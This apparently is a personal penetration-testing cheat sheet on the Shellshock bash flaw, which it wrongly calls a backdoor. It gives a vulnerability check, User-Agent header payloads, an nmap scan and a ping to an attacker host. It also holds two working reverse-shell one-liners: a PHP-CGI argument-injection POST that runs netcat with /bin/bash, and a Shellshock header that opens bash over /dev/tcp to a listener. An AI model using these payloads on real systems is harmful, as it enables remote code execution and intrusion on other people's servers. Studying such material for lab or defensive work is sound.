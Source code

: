 It is a backdoor that affected CGI programs on web servers, OpenSSH, DHCP Clients...

When executed on a system, the shell would echo `vuln` if it's vulnerable to shellsock:

```sh
env x=`() { :;}; echo vuln` bash -c "echo this is a test"
```


Attack vectors
Modification of `User-Agent` strings to include shellshock payloads inteded to run command on the remote server

```sh
curl -H "user-agent: () { :; }; <command>
```

---

#Exploitation
Locate CGI program on a potentiallt vulnerable systeme
The `phpinfo.php` page can give use some information about the cgi location the variables like

- `ORIG_SCRIPT_NAME`
- `_ENV["ORIG_SCRIPT_NAME"]`
- `_SERVER["ORIG_SCRIPT_NAME"]`

```sh
nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <target> -p 80
```

```sh
curl -H "user-agent: () { :; }; ping -c 5 -p uniq_string attacker.machine
```

---
#Reverse-shelll 

```sh
curl -i -s -k -X 'POST' --data-binary "<?php system('nc 192.168.45.128 4444 -e /bin/bash');die; ?>" "http://target.com/cgi-bin/php5?%2dd+allow_url_include%3don+%2dd+safe_mode%3doff+%2dd+suhosin%2esimulation%3don+%2dd+disable_functions%3d%22%22+%2dd+open_basedir%3dnone+%2dd+auto_prepend_file%3dphp%3a%2f%2finput+%2dd+cgi%2eforce_redirect%3d0+%2dd+cgi%2eredirect_status_env%3d0+%2dn"
```
---

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.2.113.150/9001 0>&1'" \
http://10.10.111.109/cgi-bin/test.cgi
```

